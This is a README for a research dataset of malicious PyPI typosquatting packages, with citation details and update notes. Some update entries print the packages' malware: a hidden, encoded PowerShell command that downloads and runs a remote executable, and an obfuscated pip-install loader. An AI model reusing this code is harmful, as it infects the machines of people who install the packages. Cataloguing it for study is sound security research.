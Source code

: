 ## Dataset Size

This data set includes about 4,592 versions of the source code of 4,082 malicious packages.

## Dataset Format

`package name -> version -> source code zip file.`

Example:
`ython-binance -> 0.1 -> ython-binance-0.1.tar.gz`

## False positive

We have manually checked all collected malicious packages and have now removed all false positives.

## Cite

This dataset is the work of the ASE 2023 paper "An Empirical Study of Malicious Code In PyPI Ecosystem"

```
@misc{guo2023empirical,
      title={An Empirical Study of Malicious Code In PyPI Ecosystem}, 
      author={Wenbo Guo and Zhengzi Xu and Chengwei Liu and Cheng Huang and Yong Fang and Yang Liu},
      year={2023},
      eprint={2309.11021},
      archivePrefix={arXiv},
      primaryClass={cs.SE}
}
```

## Update

### 31 Mar. 2024 
Add new 431 malicious packages using typoSquatting attack method.

ref: [https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ](https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ)


### 04 Apr. 2024 
Add new 45 malicious packages using typoSquatting attack method.


### 16 Apr. 2024 
Add new 56 malicious packages using typoSquatting attack method. 

Malicious code in these packages.
```python
try:
  import subprocess
  import os
  if not os.path.exists('tahg'):
    # www.esquelesquad.rip
    subprocess.Popen('powershell -WindowStyle Hidden -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAGwALgBkAHIAbwBwAGIAbwB4AC4AYwBvAG0ALwBzAC8AcwB6AGcAbgB5AHQAOQB6AGIAdQBiADAAcQBtAHYALwBFAHMAcQB1AGUAbABlAC4AZQB4AGUAPwBkAGwAPQAwACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAH4ALwBXAGkAbgBkAG8AdwBzAEMAYQBjAGgAZQAuAGUAeABlACIAOwAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACIAfgAvAFcAaQBuAGQAbwB3AHMAQwBhAGMAaABlAC4AZQB4AGUAIgA=', shell=False, creationflags=subprocess.CREATE_NO_WINDOW)
except: pass
```


### 21 Apr. 2024 
Add new 34 malicious packages using typoSquatting attack method.


### 1 May. 2024 
Add new 1154 malicious packages using typoSquatting attack method.

Malicious code in these packages.
```python
try:
  import subprocess
  import os
  if not os.path.exists('tahg'):
    subprocess.Popen('powershell -WindowStyle Hidden -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAGwALgBkAHIAbwBwAGIAbwB4AC4AYwBvAG0ALwBzAC8AcwB6AGcAbgB5AHQAOQB6AGIAdQBiADAAcQBtAHYALwBFAHMAcQB1AGUAbABlAC4AZQB4AGUAPwBkAGwAPQAwACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAH4ALwBXAGkAbgBkAG8AdwBzAEMAYQBjAGgAZQAuAGUAeABlACIAOwAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACIAfgAvAFcAaQBuAGQAbwB3AHMAQwBhAGMAaABlAC4AZQB4AGUAIgA=', shell=False, creationflags=subprocess.CREATE_NO_WINDOW)
except: pass
```


```python
...
while 馬女水女口目人馬鳥月水馬山山馬鸟:
  if 108363 == 馬女水女口目人馬鳥月水馬山山馬鸟:
    import pip
    pip.main([''.join(map(getattr(__builtins__, oct.__str__()[-3 << 0] + hex.__str__()[-1 << 2] + copyright.__str__()[4 << 0]), [((((3 << 2) + 1)) << 3) + 1, (7 << 4) - (1 << 1), (7 << 4) + 3, (7 << 4) + (1 << 2), (3 << 5) + 1, (((7 << 2) - 1) << 2), (((7 << 2) - 1) << 2)])), ''.join(map(getattr(__builtins__,
              oct.__str__()[-3 << 0] + hex.__str__()[-1 << 2] + copyright.__str__()[4 << 0]), [(7 << 4), (((1 << 4) - 1) << 3) + 1, (7 << 4), ((((3 << 2) + 1)) << 3) + 1, (((1 << 4) - 1) << 3) - 1, ((((3 << 2) + 1)) << 3) + 1, (7 << 4) - (1 << 1), ((((3 << 2) + 1)) << 2) - 1, (((3 << 3) + 1) << 1)]))])

    馬女水女口目人馬鳥月水馬山山馬鸟 = (896*(494 & 86)+104//648-(885 | 515+277) | 885 << 141 << 580 >> (593 | 648) & ~87) >> 9523
  elif 馬女水女口目人馬鳥月水馬山山馬鸟 == 286625773:
...
```


### Other Dataset

- GitHub Advisory Database https://github.com/advisories?query=type%3Amalware (NPM).
- https://dasfreak.github.io/Backstabbers-Knife-Collection/ (PyPI and npm), by Marc Ohm et al.
- https://github.com/datadog/malicious-software-packages-dataset (PyPI), by Datadog
